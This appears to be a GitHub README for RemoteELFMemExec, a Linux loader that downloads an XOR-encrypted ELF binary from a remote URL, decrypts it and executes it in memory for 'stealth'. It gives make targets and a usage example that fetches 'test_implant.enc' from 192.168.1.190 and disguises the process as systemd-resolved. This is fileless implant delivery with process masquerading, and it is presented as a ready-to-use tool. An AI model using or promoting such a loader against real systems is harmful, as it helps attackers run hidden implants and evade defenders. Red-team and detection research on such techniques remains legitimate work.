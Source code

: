 
# RemoteELFMemExec

**RemoteELFMemExec** is a tool designed to download, decrypt, and execute ELF binaries directly in memory from a remote URL. This utility enables the execution of executable files without writing them to disk, leveraging memory-based execution for enhanced stealth and efficiency. The tool uses XOR encryption to securely decrypt the ELF binary before execution.


> **⚠️ Warning:** On legacy systems, such as CentOS 6, it is not possible to execute ELF files directly in memory due to the lack of support for the `memfd_create` function, introduced in Linux 3.17. In these environments, the process downloads the encrypted ELF file to disk, decrypts it, executes it, and then deletes it.

## Compilation

### Debug Mode
```bash

make

```
### Static Compilation
```bash

make  static

```
### Legacy Systems
```bash

make  legacy

```
### Static Compilation for Legacy Systems
```bash

make  legacy_static

```
## Usage
```bash

./elfMemExecutor  <Url>  <Key>  <Alias_process>

```
## Example
```bash

./elfMemExecutor  http://192.168.1.190/test_implant.enc  0331afffba74a654b4e8  "/lib/systemd/systemd-resolved"

```
### Example Debug Mode
![image](https://github.com/user-attachments/assets/2d24acdb-6623-438e-904d-55094cf02396)


### Example Static 
![image](https://github.com/user-attachments/assets/6991bee4-2f0e-4d95-8812-7ee810b4afaa)

### Example Legacy 
![image](https://github.com/user-attachments/assets/905d9cad-0181-4b85-b83f-401228839c6c)

